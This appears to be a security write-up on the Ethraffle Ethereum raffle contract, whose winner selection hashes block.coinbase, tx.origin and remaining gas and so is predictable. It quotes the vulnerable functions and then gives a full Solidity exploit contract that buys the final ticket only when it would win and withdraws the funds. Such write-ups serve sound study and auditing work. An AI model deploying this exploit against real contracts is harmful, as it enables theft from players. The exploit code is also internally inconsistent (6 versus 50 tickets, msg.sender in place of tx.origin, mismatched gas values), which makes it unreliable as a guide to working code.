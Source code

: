 Ethraffle
======
https://etherscan.io/address/0x9A3dA065e1100a5613dc15b594f0F6193B419E96#code

Vulnerability type
------
Bad randomness

Abstract
------
A gambling smart contract implementation for Ethraffle, an Ethereum gambling game, sells tickets and after the last ticket in a round was sold randomly generates a winner from all the buyers who will claim the price, generates a random value that is predictable by attacker. The developer wrote a `chooseWinner()` function that uses `block coinbase` as the seed. This can be predicted by writing the same random function code in an exploit contract to determine the `winningNumber` value, thus the attacker can always win.

Related code
------

    function buyTickets() payable public {
        ......
        // Choose winner if we sold all the tickets
        if (nextTicket > totalTickets) {
            chooseWinner();
        }
        ......
    }
    
    function chooseWinner() private {
        // Pseudorandom number generator
        uint remainingGas = msg.gas;
        bytes32 sha = sha3(
            block.coinbase,
            tx.origin,
            remainingGas
        );

        uint winningNumber = (uint(sha) % totalTickets) + 1;
        address winningAddress = contestants[winningNumber].addr;
        ......
    }

Details
------
After all tickets in a round(50 ticket for a round) was sold, `chooseWinner()` randomly generates a winner from all buyers. However, `block.coinbase` and `remainingGas` can be accessed before the transaction, so the result can be determined in an attack contract.

Exploit
------
    contract Exploit{
    
        Ethraffle target;
        
        uint constant totalTickets = 6;
        
        function Exploit(address _target) public payable{
            target = Ethraffle(_target);
        }
    
        function attack(uint256 _amount) public payable{
        
            uint current_sold = target.nextTicket;
            if(current_sold + 1 > totalTickets){
                bytes32 sha = sha3(block.coinbase, msg.sender, msg.gas);
                uint winningNumber = (uint(sha) % totalTickets) + 1;
                
                if(winningNumber == totalTickets){          //if we can win
                    target.buyTickets.value(_amount)();
                    msg.sender.transfer(this.balance);
                }

            }
            
        }
    }
